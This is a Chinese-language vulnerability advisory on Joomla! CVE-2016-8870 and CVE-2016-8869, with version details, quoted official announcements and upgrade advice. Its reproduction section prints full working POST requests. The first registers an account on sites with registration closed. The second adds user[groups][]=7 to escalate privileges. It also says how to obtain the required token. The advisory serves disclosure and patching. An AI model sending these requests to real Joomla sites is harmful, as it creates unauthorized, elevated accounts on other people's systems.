 > 原文链接: https://www.anquanke.com//post/id/84796 


# 【漏洞预警】Joomla!存在未授权创建账号/权限提升漏洞请及时更新


                                阅读量   
                                **114378**
                            
                        |
                        
                                                                                    



[![](https://p5.ssl.qhimg.com/t01889cfeed57f6f586.jpg)](https://p5.ssl.qhimg.com/t01889cfeed57f6f586.jpg)

**漏洞描述**

**账号创建（Account Creation）**

**影响版本：**3.4.4到3.6.3

**报告日期：**2016年10月18号

**修复日期：**2016年10月25号

**CVE编号：**CVE-2016-8870

**描述：**不严格的检查允许用户在网站不允许注册的时候注册账号

**修复建议：**升级到Joomla!3.6.4版本

**权限提升（Elevated Privileges）**

**影响版本：**3.4.4到3.6.3

**报告日期：**2016年10月18号

**修复日期：**2016年10月25号

**CVE编号：**CVE-2016-8869

**描述：**不恰当的使用未经严格的数据导致已注册账号可以提升权限

**修复建议：**升级到Joomla!3.6.4版本

<br>

**安全客表示将持续关注该漏洞并及时跟进最新信息。**

<br>

**25号Joomla!官方公告**

Joomla! 3.6.4现在已经可以下载了。这是一个3.x版本的安全更新。修复了2个关键的安全问题和一个双因子认证的bug。我们强烈的建议你里立即更新你的网站。

**21号Joomla!官方公告**

在10月25号14:00 UTC（北京时间约22:00）即将发布Joomla! 3.6.4版本（包含一个重要安全问题的修复），Joomla!的Strike Team安全团队(JSST)确认了这个安全问题。

这是一个非常重要的安全问题修复，请在下周二准备好去更新你的Joomla!。

请理解我们，直到这个版本发布之前，我们不会透漏关于这个漏洞的任何信息。

**<br>**

**账号创建（Account Creation）复现过程**

**<strong>**</strong>

下载受漏洞影响版本3.6.3并部署，关闭用户注册模块。下载地址

```
https://github.com/joomla/joomla-cms/releases/download/3.6.3/Joomla_3.6.3-Stable-Full_Package.tar.gz
```

查看官方修复后的版本3.6.4改动后的代码

```
https://github.com/joomla/joomla-cms/commit/bae1d43938c878480cfd73671e4945211538fdcf
```

我们发现components/com_users/controllers/user.php文件中，删除了大量的代码

根据删掉代码里的逻辑，这里并没有检测用户能否注册的权限，我们提交下面的POST请求，即可完成未授权注册用户。

[![](https://p2.ssl.qhimg.com/t01d6f3633f02055cd0.jpg)](https://p2.ssl.qhimg.com/t01d6f3633f02055cd0.jpg)

为方便大家复现，参考数据包如下

```
POST /index.php?option=com_users&amp;task=user.register HTTP/1.1
Host: localhost
Referer: localhost/index.php/component/users/?view=registration
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydPTUbyuhuekYdsD4
Cookie: 16ff61c719338342d4ec65bab8753e6f=g513vf2aandq0dn8fjtcreu523
Connection: close
Content-Length: 1032

------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[name]"

secknight
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[username]"

secknight
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[password1]"

password
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[password2]"

password
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[email1]"

email@test.com
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[email2]"

email@test.com
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="option"

com_users
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="task"

user.register
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="671f11e3d1d883f57f8b30e2a2359523"

1
------WebKitFormBoundarydPTUbyuhuekYdsD4--
```

这里需要注意需要token安全验证，token可以通过index页面的login处获取。

[![](https://p1.ssl.qhimg.com/t01cddecaa604292d0d.jpg)](https://p1.ssl.qhimg.com/t01cddecaa604292d0d.jpg)

登陆管理员后台查看用户信息，发现新用户secknight,请注意权限。

[![](https://p4.ssl.qhimg.com/t01d0fafa320b2e7d50.jpg)](https://p4.ssl.qhimg.com/t01d0fafa320b2e7d50.jpg)

前台登陆测试。

[![](https://p1.ssl.qhimg.com/t015613c902f1a4dd45.jpg)](https://p1.ssl.qhimg.com/t015613c902f1a4dd45.jpg)

**权限提升（Elevated Privileges）**

****

对于权限提升，只需要在未授权创建账号的请求数据包中加入user[groups][]参数，值为7。即可成功注册，但是仍旧是没有激活的用户。

```
POST /index.php?option=com_users&amp;task=user.register HTTP/1.1
Host: localhost
Referer: localhost/index.php/component/users/?view=registration
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydPTUbyuhuekYdsD4
Cookie: 16ff61c719338342d4ec65bab8753e6f=g513vf2aandq0dn8fjtcreu523
Connection: close
Content-Length: 1032
 
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[name]"
 
secknight1
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[username]"
 
secknight1
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[password1]"
 
password
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[password2]"
 
password
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[email1]"
 
email1@test.com
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[email2]"
 
email1@test.com
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="user[groups][]"
 
7
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="option"
 
com_users
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="task"
 
user.register
------WebKitFormBoundarydPTUbyuhuekYdsD4
Content-Disposition: form-data; name="671f11e3d1d883f57f8b30e2a2359523"
 
1
------WebKitFormBoundarydPTUbyuhuekYdsD4--
```



**参考链接**

[https://www.joomla.org/announcements/release-news/5678-joomla-3-6-4-released.html](https://www.joomla.org/announcements/release-news/5678-joomla-3-6-4-released.html)

[https://www.joomla.org/announcements/release-news/5677-important-security-announcement-pre-release-364.html](https://www.joomla.org/announcements/release-news/5677-important-security-announcement-pre-release-364.html)

[https://developer.joomla.org/security-centre/659-20161001-core-account-creation.html](https://developer.joomla.org/security-centre/659-20161001-core-account-creation.html)

[https://developer.joomla.org/security-centre/660-20161002-core-elevated-privileges.html](https://developer.joomla.org/security-centre/660-20161002-core-elevated-privileges.html)

[https://medium.com/@showthread/joomla-3-6-4-account-creation-elevated-privileges-write-up-and-exploit-965d8fb46fa2#.1kmt2f495](https://medium.com/@showthread/joomla-3-6-4-account-creation-elevated-privileges-write-up-and-exploit-965d8fb46fa2#.1kmt2f495) 


